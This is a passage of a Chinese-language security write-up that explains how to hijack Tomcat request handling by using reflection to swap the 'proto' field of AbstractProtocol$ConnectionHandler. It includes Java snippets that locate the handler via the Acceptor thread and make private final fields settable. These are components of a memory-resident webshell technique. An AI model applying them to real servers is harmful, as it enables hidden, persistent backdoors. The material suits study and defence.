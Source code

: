 很明显这个 getProtocol() 方法是获得 AbstractProtocol$ConnectionHandler 对象中的 this.proto。假如我们可以拿到 AbstractProtocol$ConnectionHandler 对象，然后替换掉对象里面的字段 proto 不就好了吗？看起来有点暴力，但是经过实验证明这是可行的。

[![](assets/1701606835-fbd11075ef700d7c1ced0652506a2e90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101162918-c01cfab6-7890-1.png)

### 获取 AbstractProtocol$ConnectionHandler 对象

获取到 AbstractProtocol$ConnectionHandler 对象应该不是问题，线程中就可以拿到 AbstractProtocol$ConnectionHandler 对象了。

```bash
// 线程中获取 Handler 对象
public Object getTheHandler() {
    // 获取当前线程的所有线程
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        try {
            // 需要获取线程的特征包含 Acceptor
            if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                Object handler  = getField(getField(getField(thread, "target"),"this$0"),"handler");
                return handler;
            }
        } catch (Exception e) {
            continue;
        }
    }
    return new Object();
}
```

### 字段 proto 是否可以被修改

**现在的问题是**，字段 proto 是否可以被修改。

```bash
private final AbstractProtocol<S> proto;
```

虽然是 private final，还是可以使用反射进行修改的。

```bash
// 使得 private final 字段能够被反射设置
public static void makeSettable(Field f) {
    try {
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(f, f.getModifiers() & ~Modifier.FINAL);
        f.setAccessible(true);
    } catch (Exception e) {
        throw new RuntimeException(e);
    }
}
```

